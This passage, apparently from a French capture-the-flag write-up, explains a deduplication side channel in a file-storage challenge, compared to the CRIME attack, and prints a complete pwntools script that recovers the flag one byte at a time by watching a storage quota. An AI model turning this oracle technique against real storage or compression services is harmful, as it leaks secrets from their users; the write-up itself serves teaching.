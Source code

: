 Si le `Quota` ne change pas, cela signifie que nos données étaient déjà stockées sur le serveur, sinon elles ne l'étaient pas. Avec cela, nous pouvons récupérer le flag un octet à la fois.

C'est le même principe d'attaque que la [vulnérabilité CRIME](https://en.wikipedia.org/wiki/CRIME) qui affecte la compression des données dans des protocoles comme TLS.

### Implémentation de la solution

Le script complet de l'exploit est donné ci-dessous :

```python
from pwn import *
import string

def store(m):
    conn.sendline("store")
    conn.recvline()
    conn.sendline(m)
    conn.recvuntil("- exit\n")

def status():
    conn.sendline("status")
    conn.recvline()
    conn.recvline()
    quota = conn.recvline()
    conn.recvuntil("- exit\n")
    return quota

conn = remote("filestore.2021.ctfcompetition.com", 1337)
conn.recvuntil("- exit\n")

STATUS = status()
FLAG = "CTF{"
TEMP = FLAG
for _ in range(100):
    for e in string.printable:
        store(TEMP+e)
        q = status()
        if q == STATUS:
            FLAG += e
            TEMP += e
            if len(TEMP) > 15:
                TEMP = TEMP[1:]
            print(f"{FLAG=}")
            break
        else:
            STATUS = q

conn.close()
```

En l'exécutant, on obtient le flag petit à petit :
